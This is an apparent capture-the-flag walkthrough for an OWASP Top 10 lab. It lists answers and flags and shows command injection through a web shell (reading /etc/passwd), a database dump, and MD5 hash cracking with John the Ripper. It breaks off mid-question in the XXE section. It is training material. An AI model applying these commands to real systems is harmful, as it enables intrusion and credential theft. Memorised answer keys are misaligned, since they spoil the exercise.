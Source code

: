 # SEVERITY #1 - Injection

## [Severity 1] Command Injection Practical

First, go to the link http://machine_ip/evilshell.php

Q: What strange text file is in the website root directory?
A: **drpepper.txt**
> Command: ls

Q: How many non-root/non-service/non-daemon users are there?
A: **0**
> Command: ls /home

Q: What user is this app running as?
A: **www-data**
> Command: whoami

Q: What is the user's shell set as?
A: **/usr/sbin/nologin**
> Command: cat /etc/passwd | grep www-data

Q: What version of Ubuntu is running?
A: **18.04.4**
> Command: cat /etc/*-release

Q: Print out the MOTD.  What favorite beverage is shown?
A: **Dr Pepper**

```
$ ls /etc/update-motd.d
00-header 10-help-text 50-landscape-sysinfo 50-motd-news 80-esm 80-livepatch 90-updates-available 91-release-upgrade 92-unattended-upgrades 95-hwe-eol 97-overlayroot 98-fsck-at-reboot 98-reboot-required 

$ cat /etc/update-motd.d/00-header
...
<checkout the last line>
...
``` 

# Severity 2 - Broken Authentication

## [Severity 2] Broken Authentication Practical

Q: What is the flag that you found in darren's account?
A: **fe86079416a21a3c99937fea8874b667**

Q: Now try to do the same trick and see if you can login as arthur.
A: --NO NEED--

Q: What is the flag that you found in arthur's account?
A: **d9ac0f7db4fda460ac3edeb75d75e16e**

# Severity 3 - Sensitive Data Exposure

## [Severity 3] Sensitive Data Exposure (Challenge)

Have a look around the webapp. The developer has left themselves a note indicating that there is sensitive data in a specific directory. 

Q: What is the name of the mentioned directory?
A: **/assets**

```
$ dirsearch -u http://10.10.183.217/
```

Q: Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
A: **webapp.db**

Q: Use the supporting material to access the sensitive data. What is the password hash of the admin user?
A: **6eea9b7ef19179a06954edd0f6c05ceb**


```
$sqlite3 webapp.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   

sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0

sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

sqlite> 

```


Crack the hash.

```
$ echo 6eea9b7ef19179a06954edd0f6c05ceb > admin_hash.txt

$ john --format=raw-md5 admin_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
qwertyuiop       (?)     
1g 0:00:00:00 DONE 2/3 (2024-10-30 22:08) 1.754g/s 4042p/s 4042c/s 4042C/s 1234qwer..karla
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

$john --show --format=raw-md5 admin_hash.txt
?:qwertyuiop

1 password hash cracked, 0 left
```

Q: What is the admin's plaintext password?
A: **qwertyuiop**

Q: Login as the admin. What is the flag?
A: **THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}**

# Severity 4 - XML External Entity

## [Severity 4] XML External Entity - eXtensible Markup Language

Q: Full form of XML
A: **Extensible Markup Language**

Q: Is it compulsory to have XML prolog in XML documents?
A: **no**

Q: Can we validate XML documents against a schema?
A: **yes**

Q: How can we specify XML version and encoding in XML document?
A: **XML Prolog**


## [Severity 4] XML External Entity - DTD

Q: How do you define a new ELEMENT?
A: **!ELEMENT**

Q: How do you define a ROOT element?
A: **!DOCTYPE**

Q: How do you define a new ENTITY?
A:
